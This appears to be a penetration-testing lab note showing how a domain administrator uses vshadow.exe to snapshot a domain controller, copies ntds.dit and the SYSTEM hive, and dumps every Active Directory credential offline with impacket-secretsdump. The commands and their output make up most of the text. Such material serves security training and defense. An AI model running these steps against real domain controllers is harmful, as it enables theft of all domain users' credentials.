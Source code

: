 # Shadow Copies

A Shadow Copy, also known as Volume Shadow Service (VSS) is a Microsoft backup technology that allows creation of snapshots of files or entire volumes.

To manage shadow copies, the Microsoft signed binary `vshadow.exe` is offered as part of the Windows SDK.

As domain admins, we have the ability to abuse the vshadow utility to create a Shadow Copy that will allow us to extract the Active Directory Database NTDS.dit database file. Once we've obtained a copy of said database, we can extract every user credential offline on our local kali machine.

We can start with an admin shell on DC1 domain controller.

```
vshadow.exe -nw -p C:
```

```
C:\Tools>vshadow.exe -nw -p C:

VSHADOW.EXE 3.0 - Volume Shadow Copy sample client.
Copyright (C) 2005 Microsoft Corporation. All rights reserved.


(Option: No-writers option detected)
(Option: Create shadow copy set)
- Setting the VSS context to: 0x00000010
Creating shadow set {f7f6d8dd-a555-477b-8be6-c9bd2eafb0c5} ...
- Adding volume \\?\Volume{bac86217-0fb1-4a10-8520-482676e08191}\ [C:\] to the shadow set...
Creating the shadow (DoSnapshotSet) ...
(Waiting for the asynchronous operation to finish...)
Shadow copy set succesfully created.

List of created shadow copies:


Querying all shadow copies with the SnapshotSetID {f7f6d8dd-a555-477b-8be6-c9bd2eafb0c5} ...

* SNAPSHOT ID = {c37217ab-e1c4-4245-9dfe-c81078180ae5} ...
   - Shadow copy Set: {f7f6d8dd-a555-477b-8be6-c9bd2eafb0c5}
   - Original count of shadow copies = 1
   - Original Volume name: \\?\Volume{bac86217-0fb1-4a10-8520-482676e08191}\ [C:\]
   - Creation Time: 9/19/2022 4:31:51 AM
   - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2 <- We are looking here
   - Originating machine: DC1.corp.com
   - Service machine: DC1.corp.com
   - Not Exposed
   - Provider id: {b5946137-7b9f-4925-af80-51abd60b20d5}
   - Attributes:  Auto_Release No_Writers Differential


Snapshot creation done.
```

- `-nw` Disables writers to speed up backup creation
- `-p` stores the copy on disk

We can now copy the whole AD Database from the shadow copy to the C: drive root folder by specifying the shadow copy device name and append the full `ntds.dit` path.

```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
```

Next we need to save the SYSTEM hive from the windows registry to correctly extract the contents of `ntds.dit`

```
reg save hklm\system c:\system.bak
```

Once the two `.bak` files are moved to our kali machine, we can extract credentials with `impacket-secretsdump`

```bash
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```
